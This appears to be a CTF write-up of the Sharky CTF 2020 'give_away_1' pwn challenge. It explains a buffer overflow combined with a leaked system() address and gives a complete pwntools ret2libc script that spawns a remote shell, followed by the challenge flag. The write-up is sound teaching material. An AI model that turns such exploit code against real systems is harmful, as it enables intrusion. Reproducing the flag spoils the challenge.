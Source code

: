```yaml
---
title: "Sharky CTF 2020: give_away_1 (Pwn)"
layout: post
date: 2020-05-12
tags:
- CTF
- writeup
- Sharky CTF 2020
- Pwn
comments: true
---
```


> Make good use of this gracious give away.
>
> Creator: Hackhim
>
> [give\_away\_1](/files/give_away_1)
>
> [libc-2.27.so](/files/libc-2.27.so)

As with most pwn challenges, let's start off by checking what kind of binary we're given.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ file give_away_1

give_away_1: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=2b72e93281e97df94bf8362d5cf5a29f55accb8a, not stripped
```

Okay, it's just a 32 bit ELF binary. Let's run it to get a better idea of what it does.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ ./give_away_1
Give away: 0xf7dbad10

```

Seems like it just prints a hex value and gets some input from us. Great. Now let's see how well it handles a large input.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ python -c 'print "A"*1024' | ./give_away_1
Give away: 0xf7e18d10
Segmentation fault (core dumped)
```

Oh a [segmentation fault](https://en.wikipedia.org/wiki/Segmentation_fault), looks like we potentially have a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) vulnerability here. Let's open up the binary in IDA and see what further insights we can gather. Currently, we still don't know what that hex value is.

```
mov     eax, ds:(system_ptr - 1FBCh)[ebx]
push    eax
lea     eax, (aGiveAwayP - 1FBCh)[ebx] ; "Give away: %p\n"
push    eax             ; format
call    _printf ; printf("Give away: %p\n", system_ptr);
```

Oh wow is the hex value given to us an actual a reference to the `system`?

```
.got:00001FDC system_ptr      dd offset system ; DATA XREF: main+22↑r
```

Awesome, looks like we can combine this with the buffer overflow vulnerability and call `system("/bin/sh")` to get a shell. Where are we going to get the `/bin/sh` string from? We still haven't made use of the `libc-2.27.so` right?

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ grep -obUaP "/bin/sh\x00" libc-2.27.so
1564879:/bin/sh
```

Bingo! So all we have to do is to calculate the address to `/bin/sh` and use that as a parameter for our call to `system`.

Consolidating all the information we have to far, we can conclude that the payload should probably look something like this:

```
<padding of ? bytes><address(system)><padding of 4 bytes><address("/bin/sh\x00")>
```

The only information we're lacking is the length of the padding. We can easily do this with the `cyclic` utility included with [pwndbg](https://github.com/pwndbg/pwndbg).

<script id="asciicast-wH3QaSI2bviasewd7uSz4E0Hd" src="https://asciinema.org/a/wH3QaSI2bviasewd7uSz4E0Hd.js" async></script>

> TL;DR: Padding is 36

Okay, great. Now all we need to do is to write script to solve this.

```python
#! /usr/bin/python2

from pwn import *

HOST = 'sharkyctf.xyz'
PORT = 20334
BINARY = './give_away_1'

elf = context.binary = ELF(BINARY)
libc = ELF('libc-2.27.so')

# Start connection

r = remote(HOST, PORT)

# Stage 1: Get system@libc

libc_system = int(r.recvline().split()[2][2:], 16)
log.info('Leaked libc_system: 0x{:x}'.format(libc_system))

# Stage 2: Build ROP Chain

libc.address = libc_system - libc.symbols.system
log.info('Calculated libc base address : 0x{:x}'.format(libc.address))

binsh = libc.search("/bin/sh\x00").next()
log.info('binsh: 0x{:x}'.format(binsh))

rop = ROP([libc, elf])
rop.system(binsh)

log.success('Generated ROP Chain')
log.success(rop.dump())

# Stage 3: Pwn

r.sendline(fit({ 36: rop.chain() }))

log.success('Sent payload')
log.progress('Spawning a shell...')

r.interactive()
```

Let's see it in action!

<script id="asciicast-329253" src="https://asciinema.org/a/329253.js" async></script>

Flag: `shkCTF{I_h0PE_U_Fl4g3d_tHat_1n_L3ss_Th4n_4_m1nuT3s}`
